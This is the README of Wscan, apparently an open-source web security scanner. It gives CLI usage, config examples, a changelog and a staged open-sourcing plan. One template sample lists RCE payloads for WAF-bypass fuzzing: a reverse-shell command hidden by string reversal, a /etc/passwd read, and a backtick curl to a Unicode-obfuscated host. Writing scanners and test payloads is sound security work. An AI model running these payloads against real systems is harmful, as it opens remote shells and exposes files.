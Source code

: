 # wscan
Wscan is a web security scanner that focuses on WEB security. It pays homage to Nmap, which has been open source for 25 years. We also plan to continuously update and keep Wscan open source for the next 25 years. We welcome anyone interested in web security to join our development team.

Our goal is to develop a tool for penetration testing using machine learning. Unlike other tools, our tool can automatically learn attack and defense patterns and launch personalized attacks based on specific targets. This way, our attack efficiency and accuracy will be significantly improved, while also reducing the probability of false positives.

Our tool employs machine learning technology to achieve fully automated web penetration testing. This means there is no need for manual addition and update of rules and signatures; it can automatically learn and adapt to new attack patterns and vulnerabilities.

Machine learning technology can also quickly process large amounts of data and traffic, thereby greatly improving testing efficiency and accuracy. In addition, it can identify and discover vulnerabilities and weaknesses that are difficult for humans to perceive, thus enhancing testing quality and reliability.

We believe that using machine learning technology for penetration testing will be a crucial direction for the future of network security. We hope that our tool can help more people safeguard network security and contribute to the field of network security.
![](https://ctstack-oss.oss-cn-beijing.aliyuncs.com/tool/github/9f9e48711df62c154bde487c989dd3a9.gif)
# Example Usage 
⬇️[Download Link](https://github.com/chushuai/wscan/releases)
```
(1) Active Scan
./wscan  --log-level=debug ws --basic-crawler http://testphp.vulnweb.com/ --json-output=wscan_scan_result.json --html-output=wscan_scan_result.html
./wscan  --log-level=debug ws --browser  http://testphp.vulnweb.com/ --html-output=wscan_scan_result.html
./wscan  --log-level=debug ws --url http://testphp.vulnweb.com/listproducts.php?cat=1  --json-output=wscan_scan_result.json
./wscan  --log-level=debug ws --url-file=/wscan/url_file.txt --html-output=wscan_scan_result.html
./wscan  --log-level=debug ws --poc=/your_wscan_poc/wscan-poc/pocs/* --url http://testphp.vulnweb.com/ --html-output=wscan_scan_result.html

(2) Passive Scan
./wscan  --log-level=debug ws --listen=127.0.0.1:1000 --json-output=wscan_scan_result.json  

(3）POC Scan
    3.1 POC download address https://github.com/chushuai/wscan-poc/releases
    3.2 When Wscan is first run, a file named config.yaml will be generated. You need to modify the following content in this file to specify the path of include_poc.
        prometheus:
            enabled: true
            depth: 1
            auto_load_poc: false
            include_poc:
                - C:\wscan_windows_amd64.exe\wscan-poc-1.0.0\pocs\*.yml
            exclude_poc: [] 
    3.3 Enable --plug=prometheus via command line, and specify the absolute path of --url-file (one URL per line) to conduct large-scale POC detection.
        ./wscan --log-level=debug ws --plug=prometheus  --url-file=/url_file.txt  --html-output=wscan_scan_result.html
(4) Custom web general vulnerability scanning template (Waf bypass/Waf testing)
    4.1 Unlike POC testing, the custom web general vulnerability scanning plugin will perform FUZZ on the parameters at the specified location.
        Sample reference https://github.com/chushuai/wscan/tree/main/core/plugins/custom_tmpl/tmpl/owasp
        Plugin sample
        ---
        payload:
          - $(printf 'hsab/nib/ e- 4321 1.0.0.721 cn'|rev)
          - /etc/passwd
          - "`curl -L http://\u24BC\u24C4\u24C4\u24BC\u24C1\u24BA.\u24B8\u24C4\u24C2`"
        encoder:
          - URL
        placeholder:
          - URLParam
          - HTMLForm
          - HTMLMultipartForm
          - JSONRequest
        type: "RCE"
        ...
    4.2 You need to modify the following content in the config.yaml file to specify the path of include_tmpl.
        enabled: true
        depth: 0
        auto_load_tmpl: false 
        include_tmpl:
          - /wscan/core/plugins/custom_tmpl/tmpl/owasp/*.yml
        exclude_tmpl: [ ]
        block_status_codes: # When blocked by WAF, the HTTP status code list, default value is 403
          - 403
        pass_status_codes: # When not blocked by WAF, the HTTP status code list, default value is 200 or 404
          - 200
          - 404
        block_regex: "" # Regular expression for web pages blocked by WAF
        pass_regex: "" # Regular expression for web pages not blocked by WAF
        non_blocked_as_passed: false
    4.3 Enable --plug=custom_tmpl via command line to conduct custom Payload testing on the target website.
        ./wscan --log-level=debug ws --plug=custom_tmpl  --browser  http://testphp.vulnweb.com/  --html-output=wscan_scan_result.html
(5) Independent deployment of anti-connection module
./wscan  reverse
```




# Project Updates
* 2023.11.05 - Release v1.0.0 binary version, supporting simple web general vulnerability detection
* 2023.11.12 - Release v1.0.1 binary version, with static crawler
* 2023.11.12 - Release v1.0.2 binary version, supporting passive scanning
* 2023.11.19 - Release v1.0.3 binary version, supporting JSONP plugin
* 2023.11.26 - Release v1.0.4 binary version, fixing XSS and SQL injection false negatives, supporting vulnerability detection for individual URLs
* 2023.11.30 - Release v1.0.5 binary version, supporting browser crawler, URL and form intelligent filtering
* 2023.12.02 - Release v1.0.6 binary version, supporting output of scanning results in JSON and HTML formats
* 2023.12.03 - Release v1.0.7 binary version, supporting Yaml POC scanning plugin
* 2023.12.04 - Release v1.0.8 binary version, supporting specifying enabled plugins via command line
* 2023.12.09 - Release v1.0.9 binary version, supporting custom web general vulnerability scanning templates (Waf bypass/Waf testing)
* 2023.12.12 - Release v1.0.10 binary version, directory scanning includes 400 common rules, supporting custom scanning path bruteforce. Supporting ASP and PHP general command execution detection
* 2023.12.24 - Release v1.0.11 binary version, supporting standalone deployment of anti-connection module, with Yaml POC supporting anti-connection function
* 2023.12.30 - Release v1.0.12 binary version, supporting Goby JSON POC plugin, multi-layer URL directory POC scanning

# The open-source schedule is outlined as follows  
Wscan's goal is to create an open-source and non-profit project. However, due to the substantial workload involved in Wscan,
the code is still undergoing rapid iterations. Premature open-sourcing may lead to the emergence of various modified versions, 
which is not conducive to the tool's dissemination and the future development of the project. 
Therefore, the plan is to open-source the project in stages and modules, using Stars as a metric, 
to ensure the robustness of the project and organized community participation.

1.  YAML POC Scan Module (Open source when Stars > 400)  
2.  Reverse Connection Module (Open source when Stars > 400)  
3.  SQL Injection Module (Open source when Stars > 500)  
4.  Dynamic Crawler (Open source when Stars > 600)  
5.  Directory Scan Module (Open source when Stars > 700)  
6.  Baseline Scan (Open source when Stars > 800)  
7.  Plugin Scheduling Module Based on Message Subscription (Open source when Stars > 900)  
8.  HTTP Parameter Deformation Module; Traditional Scan Modules All Open Source; Users can modify, compile, and build scanners on their own (Open source when Stars > 1k)  
9.  Machine Learning Module to Reduce False Positives (Open source when Stars > 3k)  
10. Machine Learning Module for Automatic Payload Generation (Open source when Stars > 4k)  